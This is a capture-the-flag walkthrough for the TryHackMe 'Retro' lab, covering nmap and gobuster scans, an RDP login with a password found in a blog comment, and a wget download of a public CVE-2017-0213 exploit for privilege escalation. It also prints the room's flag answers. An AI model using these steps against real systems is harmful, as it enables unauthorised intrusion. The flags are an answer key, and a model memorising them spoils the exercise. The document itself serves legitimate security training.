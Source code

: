 # [Retro](https://tryhackme.com/r/room/retro)

![Retro](./images/Retro.png)

[Retro](https://tryhackme.com/r/room/retro) is listed as an medium room. New high score! An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* RDP
* Privilege escalation
* CVE-2017-0213

## Task 1 - Pwn

![logo](./images/logo.png)

Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

-------------------------------------

_There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in it's remixed version [Blaster](https://tryhackme.com/room/blaster)_.

### Enumeration & Exploitation

* Scan open port with `nmap`

	```
	nmap $IP -A -p- -oN nmap-scan -Pn
	```

	![nmap](./images/nmap.png)

	We found open port on 80 (HTTP) and 3389 (RDP)

* Scan directory list with `Gobuster`

	```
	gobuster dir -u  $IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o gobuster-scan
	```

	![gobuster](./images/gobuster.png)

	We got directory **/retro**

* Browsing into **/retro** directory

	![web1](./images/web1.png)

	We found the author is **Wade** & exploring posts by **Wade**

	![web2](./images/web2.png)

	![web3](./images/web3.png)

	We found suspicious comment on post **Ready Player One**. Take a note for it.

* We know from nmap that host machine has set RDP port open. Connect to it using username Author and password from the comment.

	```
	xfreerdp /v:$IP /u:Wade /p:'parzival'
	```

	![rdp](./images/rdp.png)

	We got initial access

### Privilege Escalation

* View system information on Host machine

	![system](./images/system.png)

	We got information that Host machine run **Windows Server 2016 Build 14393**

* There is a vulnerabolity for this machine

	![vulnerability](./images/vulnerability.png)

* Download file exploit from [Github](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213)

	```
	wget https://github.com/WindowsExploits/Exploits/raw/master/CVE-2017-0213/Binaries/CVE-2017-0213_x64.zip
	```

	![download](./images/download.png)

* Transfer exploit file to Host machine

	![transfer](./images/transfer.png)

* Extract and run the program

	![run](./images/run.png)

	**WE ARE ROOT NOW**

### Answer the questions below

* A web server is running on the target. What is the hidden directory which the website lives on?

	![directory](./images/directory.png)

	**Answer : /Retro**

* user.txt

	![user](./images/user.png)

	**Answer : 3b99fbdc6d430bfb51c72c651a261927**

* root.txt

	![root](./images/root.png)

	**Answer : 7958b569565d7bd88d10c6f22d1c4063**

